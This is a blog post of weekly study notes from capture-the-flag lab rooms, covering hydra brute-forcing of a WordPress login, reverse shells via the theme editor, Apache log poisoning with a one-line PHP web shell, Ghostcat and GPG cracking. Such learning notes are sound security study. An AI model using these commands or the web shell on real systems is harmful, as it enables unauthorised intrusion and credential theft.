 ```yaml
---
title: Weekly Review 1
date: 2023-10-08
categories: [Review]
tags: [hydra, interactiveshell, wordpress, containerescape, logpoisoning]
img_path: /assets/review/
mermaid: true
---
```

> This is an overview of what I learned through the week, mostly things I encountered for the first time or simply wanted to revise.

## [Mr Robot](https://cspanias.github.io/posts/Mr-Robot-Write-Up-(2023)/) 

### Dictionary Attack with hydra

1. Login with random creds and check for login **error message**. 
2. Capture POST request with Burp and get its **params**.
3. Try building a **username list** by using static pass.
4. If user(s) found, try the reverse to **crack pass**. 

 ```shell
 hydra -L <username_list> -p <static_pass> <target-ip> http-post-form "/<login_dir>:log=^USER^&pwd=^PASS^:F=<error message>" -t 30
 ```
 
 ### RCE on WordPpress 
 
 1. We need admin acc for accessing Appearance --> **Editor**.
 2. Replance an appropriate, i.e. least used, Editor PHP script with reverse shell code. 
 
 ## Interactive terminal with Python
 
 ```shell
 python -c 'import pty;pty.spawn("/bin/bash");'
 ```
 
 ## [Dogcat](https://cspanias.github.io/posts/Dogcat-Write-Up-(2023)/)
 
 ### Log Poisoning
 
 1. **NULL Byte** usage: `%00` / `&`.
 2. If a `../` attack is possible in an Apache web server, we can target its **log file**, usually, under `/var/log/apache2/access.log`.
 3. Modify the **User-Agent** of the captured request by replacing it with code accepting commands:
 ```PHP
 <?php system($_GET['c']); ?>
 ```
 4. Now we can execute commands such as `/access.log&ext&c=<command>`, checking the output in the HTTP response.
 5. Run Metasploit's **web delivery** module, and pass the output as command.
 
 ### Container Escape
 
 1. Check ```hostname```. 
 2. To break out we need to find a way to launch a reverse shell from the current env (Inception concept).
 
 ## [Nax](https://cspanias.github.io/posts/Nax-Write-Up-(2023)/)
 
 ### Nagios XI
 
 Boosted Crontab used in DevOps for monitoring and generating alerts when something goes wrong (`/nagiosxi`).
 
 ### Piet Programming Language
 
 We can pass it `.ppm` files and get back chars.
 
 ## [Git Happens](https://cspanias.github.io/posts/Git-Happens-Write-Up-(2023)/)
 
 ### GitTools
 We can download and manipulate public-facing repos (`/.git`) with GitTools.
 
 ### Chaining commands
 ```shell
 # use " " as delimiter and pick the second field
 cut -d " " -f2
 
 # converts standard input into args to a command
 xargs
 ```
 
 ## [Tomghost](https://cspanias.github.io/posts/Tomghost-Write-Up-(2023)/)
 
 ### Apache Tomcat
 
 Apache Tomacat is a **web container** that can also be used as an HTTP(S) server. **Ghostcast** is a known vuln: if the *Apache Jserv Protocol (AJP)* is exposed (port 8009), we can read files from Tomcat's dirs. 
 
 ### GPG Encryption
 
GPG is a file encryption tool. 
```shell
# decrypt file
gpg -d <file.pgp>

# gpg file for John
gpg2john <file.asc> > new_file

# in case we need to pass a key to gpg
gpg --import <file.asc>
```